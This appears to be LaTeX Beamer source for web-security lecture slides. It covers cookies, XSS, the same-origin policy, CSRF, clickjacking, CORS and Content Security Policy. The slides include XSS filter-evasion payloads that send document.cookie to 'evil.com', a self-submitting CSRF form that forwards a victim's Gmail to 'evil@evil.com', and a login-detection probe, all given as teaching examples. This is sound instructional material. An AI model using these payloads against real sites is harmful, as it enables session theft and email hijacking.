
\subsection{Cookies and logins}

\begin{frame}{implementing logins on HTTP}
    \begin{itemize}
        \item typical mechanism: \myemph{cookies}
        \item information for \myemph{client to send} with future requests to server
        \begin{itemize}
            \item limited to \myemph{particular domain} (or domain+path)
        \end{itemize}
    \item Server sets cookie set via header in HTTP response
        \begin{itemize}
            \item \texttt{\fontsize{10}{10}\selectfont Set-Cookie: key=theInfo; domain=example.com; expires=Wed, Apr \ldots}
        \end{itemize}
    \item Client sends back cookie with \myemph{every HTTP request}
        \begin{itemize}
            \item \texttt{\fontsize{10}{10}\selectfont Cookie: key=theInfo}
        \end{itemize}
    \item JavaScript can also read or set Cookie
    \end{itemize}
\end{frame}

\begin{frame}<0>[noframenumbering,label=cookieFields]{cookie fields}
    \begin{itemize}
        \item cookie data: whatever server wants; typically \myemph{session ID}
        \begin{itemize}
            \item \myemph{same problems as hidden fields}
            \item usually tied to database on server
            \item supposed to be kept secret by logged-in user
        \end{itemize}
    \item \texttt{domain}: to what servers should browser send the cookie
        \begin{itemize}
            \item \fbox{\texttt{facebook.com}} --- login.facebook.com, www.facebook.com, facebook.com, etc.
        \end{itemize}
    \item \myemph<2>{\textbf<2>{\texttt{path}}: to what URLs on a server should browser send the cookie}
        \begin{itemize}
            \item \fbox{\texttt{/foo}} --- server.com/foo, server.com/foo/bar, etc.
        \end{itemize}
    \item \texttt{expires}: when the browser should forget the cookie
    \item (and more)
    \end{itemize}
\end{frame}

\begin{frame}{last time: web security}
    \begin{itemize}
    \item \myemph{stateless} requests (single URL)
    \item added \myemph{cookies} to tie requests together
        \begin{itemize}
        \item ``session ID'' --- identifies, e.g., login
        \end{itemize}
    \item client versus server trust
        \begin{itemize}
            \item don't trust \myemph{the attacker's browser}
        \end{itemize}
    \item XSS --- command injection in HTML
        \begin{itemize}
        \item power of scripting --- get cookies
        \item doesn't need to be stored --- embed in other web page
        \item extract info to external site --- e.g., fetch image
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{evil client/innocent website}
    \begin{tikzpicture}
        \node[fill=red!30,minimum height=5cm,minimum width=2cm,align=center] (attacker) at (0, 0) {
            attacker's \\ web browser
        };
        \node[fill=blue!30,minimum height=5cm,minimum width=2cm,align=center] (server) at (12, 0) {
            vulnerable \\ website
        };

        \draw[thick,-Latex] ([yshift=-1cm] attacker.east) -- ([yshift=-1cm]server.west)
                node[midway,above,align=center] {
            command injection? \\ \texttt{email=\fbox{"; dangerousCommand}}
        };

        \draw[thick,-Latex] ([yshift=1cm] attacker.east) -- ([yshift=1cm]server.west) node[midway,above,align=center] {
            improperly trusted input? \\ \texttt{price=\fbox{\$0}}
        };
    \end{tikzpicture}
\end{frame}

\begin{frame}<1>[fragile,label=evilInnocent]{evil website/innoncent website}
    \begin{tikzpicture}
        \tikzset{>=Latex}
        \node[fill=green!30,minimum height=6cm,minimum width=2cm,align=center,anchor=north west] (browser) at (0, 0) {
            victim user's  \\ web browser
        };
        \node[fill=red!30,dashed,thick,draw,minimum height=2cm,minimum width=2cm,align=center,anchor=north east] (attacker) at (14, 0) {
            attacker\\ website
        };
        \node[fill=blue!30,minimum height=3cm,minimum width=2cm,align=center,anchor=north east] (server) at (14, -2.25) {
            victim \\ website
        };


        \draw[thick,<-] ([yshift=-.5cm] attacker.north west) -- ([yshift=-.5cm]browser.north east) node[midway,above] {
            get some web page
        };
        \draw[thick,->] ([yshift=-1.5cm] attacker.north west) -- ([yshift=-1.5cm]browser.north east) node[midway,above] {
            do something with victim website
        };

        \draw[thick,->] ([yshift=-2.75cm] browser.north east) -- ([yshift=-.5cm]server.north west) node[midway,above] {
            request chosen by attacker
        };
        \draw[thick,<-] ([yshift=-4.25cm] browser.north east) -- ([yshift=-2cm]server.north west) node[midway,above,align=center] {
            page with javascript chosen by attacker? \\
            \small injected command: ``send secret cookie to attacker''?
        };
        \begin{visibleenv}<2>
        \draw[thick,<-] ([yshift=-5.25cm] browser.north east) -- ([yshift=-3cm]server.north west) node[midway,above] {
            \myemph{results of action chosen by attacker?}
        };
        \end{visibleenv}
        \begin{visibleenv}<1>
        \node[fill=red!30,dashed,thick,draw,minimum height=1cm,minimum width=2cm,align=center,anchor=north east] (attacker2) at (14, -5.45) {
        };
            \draw[thick,->] ([yshift=-5.85cm] browser.north east)  -- ([yshift=-.25cm]attacker2.north west) node[midway, above] {secret values from victim website};
        \end{visibleenv}
    \end{tikzpicture}
\end{frame}


\begin{frame}{XSS demo}
\end{frame}


\section{XSS mitigations}

\begin{frame}<1-2>[label=XSSmits]{XSS mitigations}
    \begin{itemize}
    \item host dangerous stuff on different domain
        \begin{itemize}
        \item has different cookies
        \end{itemize}
    \item Content-Security-Policy
        \begin{itemize}
        \item server says ``browser, don't run scripts here''
        \end{itemize}
    \item \myemph<3>{HttpOnly cookies}
        \begin{itemize}
        \item server says ``browser, don't share this with code on the page''
        \end{itemize}
    \item \myemph<2>{filter/escape inputs} (same as normal command injection)
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=HTMLFilterEscapeNits]{HTML filtering/escaping nits}
    \begin{itemize}
    \item it's easy to mess up HTML filtering or escaping
        \begin{itemize}
        \item (especially if trying to allow ``safe HTML'')
        \item browsers have features you don't know about
        \end{itemize}
    \item can `only' set image URL?
\begin{minted}[fontsize=\fontsize{10}{11}]{HTML}
<img src="javascript:(new Image()).src=
                     'http://evil.com/' + document.cookie">
\end{minted}
    \item disallow the word `script'?
\begin{minted}[fontsize=\fontsize{10}{11}]{HTML}
<img src=x onerror="(new Image()).src=
                   'http://evil.com/' + document.cookie">
\end{minted}

    \end{itemize}
            \imagecredit{via \url{https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet}}
\end{frame}

\againframe<3>{XSSmits}

\begin{frame}<1-2>[label=HTTPOnlyCookie]{HTTP-only cookies}
    \begin{itemize}
    \item \texttt{Set-Cookie: SessionID=123456789; HttpOnly}
    \item ``only send cookie in HTTP''
    \item cookie is \myemph{not available to JS}
    \item eliminates obvious way of exploiting XSS
    \item problem: \myemph<2>{JS can read webpage contents}
    \end{itemize}
\end{frame}



\section{web pages in web pages}

\subsection{embedding things}


\begin{frame}{web pages in webpages: demo}
\end{frame}

% embedding examples:
        % FIXME: example calendar in web page
        % FIXME: google analytics
        % FIXME: window.opener, window.parent
\begin{frame}[fragile,label=webInWeb]{web pages in web pages (1)}
    \vspace{-.25cm}
\begin{minted}[bgcolor=bg,fontsize=\small]{HTML}
<iframe id="localFrame" src="./localsecret.html"
    onload="readLocalSecret()"></iframe>
<script>
function readLocalSecret() {
    alert(document.getElementById('localFrame').
          contentDocument.innerHTML);
}
</script>
\end{minted}
    \begin{itemize}
    \vspace{-.25cm}
    \item displays localsecret.html's \myemph{contents} in an alert box
    \item can also extract specific parts of page
    \item same idea works for sending it to remote server
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=webInWebOther]{web pages in web pages (2)}
    \vspace{-.25cm}
    \setlength{\parskip}{-0.5\baselineskip}
\begin{minted}[bgcolor=bg,fontsize=\small,highlightlines=2,highlightcolor=green!30!white]{HTML}
<iframe id="remoteFrame"
    src="https://collab.virginia.edu/..."
    onload="readRemoteSecret()></iframe>
<script>
function doIt() {
    alert(document.getElementById('remoteFrame').
          contentDocument.innerHTML);
}
</script>
\end{minted}
    \begin{itemize}
    \vspace{-.25cm}
    \item will this work?
    \end{itemize}
\end{frame}

\begin{frame}{what happened?}
    \begin{itemize}
        \item ``TypeError: document.getElementById(...).contentDocument is null''
        \item web browser denied access
        \vspace{.5cm}
    \item \myemph{Same Origin Policy}
    \end{itemize}
\end{frame}


\section{same-origin policy}

\begin{frame}{browser protection}
    \begin{itemize}
        \item websites want to \myemph{load content dynamically}
    \begin{itemize}
        \item Google docs --- send what others are typing
        \item webmail clients autoloading new emails, etc.
        \item \ldots
    \end{itemize}
    \item but shouldn't be able to do so from any other website
        \begin{itemize}
        \item e.g. read grades of Collab if I'm logged in
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{same-origin policy}
    \begin{itemize}
        \item two pages from same \myemph{\textbf{origin}}: scripts can do anything
        \item two pages from different \myemph{\textbf{origins}}: almost no information
            \vspace{.5cm}
        \item idea: different websites can't interfere with each other
            \begin{itemize}
            \item facebook can't learn what you do on Google --- unless Google allows it
            \end{itemize}
        \item \myemph{enforced by browser}
    \end{itemize}
\end{frame}

\begin{frame}{origins}
    \begin{itemize}
        \item origin: part of URL up to server name:
            \begin{itemize}
                \item \texttt{\myemph{https://example.com}/foo/bar}
                \item \texttt{\myemph{http://localhost}\tikzmark{local1}/foo/bar}
                \item \texttt{\myemph{http://localhost:8000}\tikzmark{local2}/foo/bar}
                \item \texttt{\myemph{https://www.example.com}/foo/bar}
                \item \texttt{\myemph{http://example.com}/foo/bar}
                \item \texttt{\myemph{https://other.com}/foo/bar}
                \item \texttt{\myemph{file:///}home/cr4bd}
            \end{itemize}
    \end{itemize}
\end{frame}

\againframe<2>{cookieFields}

\begin{frame}{origins and shared servers}
    \begin{itemize}
        \item very hard to safely share a \myemph{domain name}
    \item can never let attacker write scripts on same domain
        \begin{itemize}
        \item even if cookies don't matter
        \end{itemize}
    \item similar issues with plugins (e.g. Flash)
    \vspace{.5cm}
\item can share server --- one server can host \myemph{multiple names}
    \end{itemize}
\end{frame}

\subsection{not working: iMessage flaw}
    % https://www.bishopfox.com/blog/2016/04/if-you-cant-break-crypto-break-the-client-recovery-of-plaintext-imessage-data/

\begin{frame}<1>[label=iMsgBug,fragile]{iMessage bug}
    \begin{itemize}
        \item iMessage (Apple IM client): embedded browser to display messages
            \begin{itemize}
            \item a common (easy?) way to write user interfaces
            \end{itemize}
        \item bug: click on \myemph{malicious link, send message logs to attacker}
        \vspace{.5cm}
        \item<2-> message links could \myemph<2>{include javascript}
        \item<2-> same-origin policy \myemph<2>{not enforced}
    \end{itemize}

        \imagecredit{https://www.bishopfox.com/blog/2016/04/if-you-cant-break-crypto-break-the-client-recovery-of-plaintext-imessage-data/}
\end{frame}

\againframe<2>{iMsgBug}

\begin{frame}{JavaScript URL}
    \begin{itemize}
        \item \fbox{\texttt{javascript:some java script code}} is a kind of URL
        \item runs JavaScript when clicked (\myemph{permissions of current web page})
        \item iMessages allowed \texttt{\textit{ANYTHING}://\textit{ANYTHING}} as a link
            \begin{itemize}
            \item \texttt{https://www.google.com/}
            \item \texttt{invalidnamethatdoesnotdoanything://otherStuff}
            \item \texttt{javascript://\%0a\fbox{JavaScriptCodeHere}} (\%0a = newline)
            \end{itemize}
        \item JS can request \fontsize{11}{12}\texttt{file:///Users/somename/Library/Messages/chat.db}
            \begin{itemize}
                \item \myemph{no same origin policy just for the UI}
                \item should have prohibited this
            \end{itemize}
    \end{itemize}
\end{frame}

\subsection{SOP details}

\begin{frame}{operations requiring same origin}
    \begin{itemize}
    \item accessing webpage you loaded in iframe, pop-up window, etc.
    \item accessing webpage loading you in iframe, pop-up window, etc.
    \item sending \textit{certain kinds of} requests
        \begin{itemize}
        \item most notably XMLHTTPRequest --- ``AJAX''
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}<1>[label=noSameOrigin]{operations not requiring same origin}
    \begin{itemize}
    \item \myemph<2>{loading images, stylesheets (CSS), video, audio}
    \item \myemph<3>{linking to websites}
    \item \myemph<7>{loading scripts}
        \begin{itemize}
        \item but not getting syntax errors
        \end{itemize}
    \item \myemph<4>{accessing with ``permission'' of other website}
    \item \myemph<5>{submitting forms to other webpages}
    \item \myemph<6>{requesting/displaying other webpages \sout<7>{(but not reading contents)}}
    \end{itemize}
\end{frame}

% FIXME: explanation

\section{information leaks despite SOP}

\againframe<2>{noSameOrigin}

\begin{frame}[fragile,label=inFB]{logged into facebook? (1)}
    \begin{itemize}
        \item \texttt{https://www.facebook.com/login.php?next=\textit{URL}}
        \item login page if \myemph{you are not logged in}
            \item otherwise redirects to \textit{URL}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=inFB2]{logged into facebook? (2)}
    \begin{itemize}
        \item \texttt{https://www.facebook.com/favicon.ico} is an image
        \item load via conditional redirect:
    \end{itemize}
    \begin{minted}[fontsize=\small,breaklines,breakafter==]{HTML}
<img src="http://www.facebook.com/login.php?next= https%3A//www.facebook.com/favicon.ico"
    onload="doLoggedInStuff()"
    onerror="doNotLoggedInStuff()">
\end{minted}
    \begin{itemize}
        \item JavaScript can check \myemph{if image loaded correctly}
            \begin{itemize}
            \item also can check image size
            \end{itemize}
    \end{itemize}
\imagecredit{via \texttt{https://robinlinus.github.io/socialmedia-leak/}}
\end{frame}

\againframe<3>{noSameOrigin}

\begin{frame}[fragile,label=visitedLinks]{old problem: visited links}
    \begin{itemize}
    \item browsers can display visited versus unvisited links different:
        
\includegraphics[width=2cm]{visitedunvisited}
    \item javascript can query the ``computed style'' of a link
    \end{itemize}
\begin{minted}[fontsize=\small]{HTML}
<style>:visited{color:red}</style>
<a id="lnk" href="https://facebook.com/secretgroup/">link</a>
<script>
var link = document.getElementById("lnk");
if (window.getComputedStyle(link, null).getProperty('color')
    == ...) {
    ...
}
</script>
\end{minted}
\end{frame}

\begin{frame}[fragile,label=visitedLinksFix]{visited link: fix}
    \begin{itemize}
    \item most browsers have fixed visited link ``leaks'' --- not trivial
    \item getComputedStyle \myemph{lies about visited links}
        \begin{itemize}
        \item as if unvisited
        \end{itemize}
    \item many types of \myemph{formatting disallowed} for visited links
        \begin{itemize}
        \item e.g. different font size --- could detect from sizes of other things
        \end{itemize}
    \item probably \myemph{incomplete solution?}
        \begin{itemize}
            \item still tricks involving page appearance
        \end{itemize}
    \end{itemize}
\end{frame}

\section{Cross-Site Request Forgery}
\againframe<5>{noSameOrigin}

\begin{frame}[fragile,label=submitForm]{submitting forms}
    \begin{minted}[fontsize=\fontsize{10}{11},highlightlines={4,11},highlightcolor=cyan!40]{HTML}
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf"
    enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="evil@evil.com"/> 
    ...
    <input type="hidden" name="s" value="z"/> 
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script>
document.forms[0].submit();
</script>
\end{minted}
    \begin{itemize}
    \item above form: 2007 GMail email filter form
        \begin{itemize}
        \item pre filled out: match all messages; forward to \texttt{evil@evil.com}
        \end{itemize}
    \item form will be submitted with \myemph{the user's cookies!}
    \end{itemize}
\end{frame}

\begin{frame}{Cross Site Request Forgery (CSRF)}
    \begin{itemize}
        \item take advantage of ``\myemph{ambient authority}'' of user
            \begin{itemize}
                \item e.g. user is allowed request to make an email filter
            \end{itemize}
        \item any webpage can make requests to other websites
            \begin{itemize}
                \item looks the same as requests made legitmately?
                \item \myemph<2>{can't read result, but does that matter?}
            \end{itemize}
        \item problem: cookie in request $\not=$ user authorized request
        \item problem: want to treat user as logged in when linked from another site
            \begin{itemize}
            \item can't just have browser omit cookies
            \end{itemize}
    \end{itemize}
\end{frame}

\againframe<2>{evilInnocent}

\begin{frame}{defending against CSRF (1)}
    \begin{itemize}
        \item one idea: check the Referer [sic] header
            \begin{itemize}
            \item actually works here --- browser is not going to betray its user
            \end{itemize}
        \item problem: not always sent
        \vspace{.5cm}
        \item<2> real solution: add a \myemph{secret token} (\myemph{CSRF token}) to the form
        \item<2> must \myemph{not be guessable}
            \begin{itemize}
            \item example: copy of secret cookie value
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{defending against CSRF (2)}
    \begin{itemize}
        \item browsers sometimes send \texttt{Origin} or \texttt{Referer} header
            \begin{itemize}
            \item if present, contain information about source of request
            \end{itemize}
        \item some types of requests require same origin
            \begin{itemize}
            \item XMLHttpRequest JavaScript API
            \item can send headers normal requests can't
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{CSRF versus changing form parameters}
\end{frame}


\subsection{Login CSRF}

% FIXME
\begin{frame}{subtle CSRF attack: login}
    \begin{itemize}
    \item vulnerable CSRF targets aren't just actions like ``email filter''
    \item can also \myemph{log user into attacker's account}
        \begin{itemize}
        \item then, e.g., they enter payment information
        \end{itemize}
    \item attacker could read info from account?
    \item often websites forgot to protect login form
    \end{itemize}
\end{frame}


\section{Clickjacking}

\againframe<6>{noSameOrigin}

\begin{frame}{embedding webpages maliciously}
    \begin{itemize}
    \item can have little `frame' of other webpage within webpage
    \item can't read contents of webpage
    \item can't press buttons in webpage
    \vspace{.5cm}
    \item but can:
        \begin{itemize}
        \item make other webpage transparent
        \item show/hide other webpage in response to mouse movement
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{clickjacking demo}
    % FIXME
\end{frame}

\begin{frame}{clickjacking defenses}
    \begin{itemize}
    \item tell browser ``no embedding'' with HTTP header
    \item example: \texttt{\small Content-Security-Policy: frame-ancestors 'self'}
        \begin{itemize}
        \item only embed from same origin
        \end{itemize}
        \vspace{.5cm}
    \item JavaScript on page can detect if in iframe, etc.
        \begin{itemize}
        \item make form buttons not work if so
        \end{itemize}
    \end{itemize}
\end{frame}

\section{Deliberate Sharing}
\againframe<7>{noSameOrigin}

\begin{frame}{deliberate sharing}
    \begin{itemize}
    \item websites often want to access other websites
    \item embedded frame often not enough
        \vspace{.5cm}
    \item example: Facebook login API
    \end{itemize}
    
\includegraphics[width=0.7\textwidth]{fb-login-api}
\end{frame}

\begin{frame}[label=ssoLogin]{deliberate sharing: single-sign-on API}
\vspace{-.5cm}
    \begin{tikzpicture}
        \tikzset{
            >=Latex,
        }
        \node[fill=blue!30,minimum height=8cm,anchor=north west] (browser) at (0,0) { browser };
        \node[fill=green!30,minimum height=2cm,anchor=north east] (server1) at (15,0){ \tt example.com };
        \node[fill=yellow!30,minimum height=2cm,anchor=north east] (server2) at (15, -2.5) { \tt socialnetwork };
        \node[fill=green!30,minimum height=3cm,anchor=north east] (server3) at (15, -5) { \tt example.com};
        \begin{scope}[>=Latex,ultra thick,every node/.style={font=\tt\fontsize{10}{10}\selectfont,align=left,inner sep=.25mm},y=1.2cm]
            \draw[->] ([yshift=-.5cm]browser.north east) -- ([yshift=-.5cm]server1.north west)
                node[midway,above] { GET /login/ };
            \draw[<-] ([yshift=-1.5cm]browser.north east) -- ([yshift=-1.5cm]server1.north west)
                node[midway,above,align=center] (redirectOne) { Set-Cookie: ExSessionID=... \\ goto \texttt{socialnetwork/login/?for=example.com} };
            \draw[->] ([yshift=-3.0cm]browser.north east) -- ([yshift=-0.5cm]server2.north west)
                node[midway,above] { GET /login/?for=example.com \\ Cookie: SNSessionID=... };
            \draw[<-] ([yshift=-4.0cm]browser.north east) -- ([yshift=-1.5cm]server2.north west)
                node[midway,above] (redirectTwo) {  goto example.com/loggedin?\myemph{token=...} };
            \draw[->] ([yshift=-5.5cm]browser.north east) -- ([yshift=-0.5cm]server3.north west)
                node[midway,above] (token) { GET /loggedin?\myemph<2>{token=...} \\ Cookie: ExSessionID=... };
            \draw[<-] ([yshift=-6.5cm]browser.north east) -- ([yshift=-1.5cm]server3.north west)
                node[midway,above] { goto example.com/frontpage };
        \end{scope}
        \begin{visibleenv}<2>
            \node[mycallout2=redirectOne,anchor=center,align=left] at ($(browser.east)!0.5!(server2.west)$) {
                tell browser to make request to socialnetwork; \\
                they will handle login
            };
        \end{visibleenv}
        \begin{visibleenv}<3>
            \node[mycallout2=redirectTwo,anchor=center,align=left] at ([yshift=2cm]$(browser.east)!0.5!(server2.west)$) {
                socialnetwork verifies user's cookie \\
                (maybe displays login prompt) \\
                then redirects back to example.com with \myemph{token}
            };
        \end{visibleenv}
        \begin{visibleenv}<4>
            \node[mycallout2=token,anchor=center,align=left] at ($(browser.east)!0.5!(server2.west)$) {
                example.com can \myemph{send token to socialnetwork to verify} \\
                e.g. make request to socialnetwork to get username 
            };
        \end{visibleenv}
    \end{tikzpicture}
\end{frame}

\begin{frame}{deliberate sharing: retrieving information}
    \begin{itemize}
    \item what about retrieving information from JavaScript?
    \item example: Google Translator API
    \item example: Token to Username API
    \vspace{.5cm}
    \item explicit mechanism for server opt-in to cross-origin requests (where webpage can read result)
        \begin{itemize}
        \item Cross-Origin Resource Sharing
        \end{itemize}
    \item \myemph{no opt-in? JS fails} like before
    \item always sends Origin --- no pretending to be innocent user
    \end{itemize}
\end{frame}

\begin{frame}{demo}
\end{frame}

\section{Backup Slides}

\begin{frame}[fragile,label=CSPExs]{Content Security Policy}
    \begin{itemize}
        \item \texttt{Content-Security-Policy}: HTTP header sent to browsers
        \item \fbox{\small \tt Content-Security-Policy: default-src 'self' 'unsafe-inline'}
        \item says ``only load things from \myemph{same host} or \myemph{embedded in webpage}''
            \begin{itemize}
            \item loading image from \texttt{evil.com} will fail
            \end{itemize}
        \item \fbox{\parbox{11cm}{\small \tt Content-Security-Policy: script-src 'none';\\object-src 'none';
            style-src 'self'}}
            \begin{itemize}
            \item disallow all scripts, all plugins (e.g. Flash)
            \item only allow stylesheets from same host (and not inline)
            \end{itemize}
    \end{itemize}

    % FIXME: gmail policy
    %"frame-src https://*.talkgadget.google.com/ 'self' https://hangouts.google.com/ https://talkgadget.google.com/ https://drive.google.com/picker https://ssl.gstatic.com https://accounts.google.com/ https://ssl.google-analytics.com/ https://feedback.googleusercontent.com/resources/ https://www.google.com/tools/feedback/ https://support.google.com/inapp/ https://plus.google.com/ https://docs.google.com/ https://clients5.google.com/pagead/drt/dn/ https://clients5.google.com/ads/measurement/jn/ https://clients6.google.com/static/ https://mail.google.com/mail/ https://mail-attachment.googleusercontent.com/attachment/ https://apis.google.com/additnow/ https://notifications.google.com/ https://people-pa.clients6.google.com/static/;script-src https://maps.gstatic.com/ https://*.talkgadget.google.com/ blob: 'self' 'unsafe-inline' 'unsafe-eval' https://hangouts.google.com/ https://talkgadget.google.com/ https://apis.google.com/ https://ajax.googleapis.com/ https://maps.googleapis.com/maps/api/ https://maps.googleapis.com/maps-api-v3/ https://www-onepick-opensocial.googleusercontent.com/gadgets/js/ https://ssl.google-analytics.com/ https://feedback.googleusercontent.com/resources/ https://www.gstatic.com/feedback/ https://clients1.google.com/complete/ https://www.gstatic.com/og/ https://www.googleapis.com/appsmarket/ https://www.google.com/tools/feedback/;img-src https: blob: data:;report-uri /cspreport"
\end{frame}

\begin{frame}{Aside: why care about stylesheets?}
    \begin{itemize}
    \item inline stylesheets can steal data
    \item trick: make part of HTML be considered part of CSS URL
    \end{itemize}
\end{frame}
\begin{frame}{Content Security Policy examples}
    \begin{itemize}
        \item \fbox{\parbox{11cm}{\tt \small Content-Security-Policy: script-src 'self' www.google-analytics.com; object-src 'none'}}
        \begin{itemize}
            \item allow scripts from same host or \texttt{www.google-analytics.com}
            \item \myemph{disallow inline scripts}
            \item disallow plugins
        \end{itemize}
    \item \fbox{\parbox{11cm}{\tt \small Content-Security-Policy: default-src 'none'; img-src 'self' https://\ldots; \ldots}}
        \begin{itemize}
            \item allow nothing to start; then whitelist what is needed
            \item recommended strategy
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=CSPNonces]{CSP nonces}
\begin{minted}[fontsize=\small]{HTML}
Content-Security-Policy: script-src https://foo.com
                                    'nonce-DZJeVASMVs'

...
<script nonce="DZJeVASMVs">
// legitimate embedded script
document...
</script>
\end{minted}
    \begin{itemize}
    \item nonce: ``\textbf{n}umber used only \textbf{once}''
    \item idea: \myemph{changes every time}; attacker can't guess for XSS attack
        \begin{itemize}
        \item browser doesn't enforce that it changes; server's job
        \end{itemize}
    \end{itemize}
\end{frame}
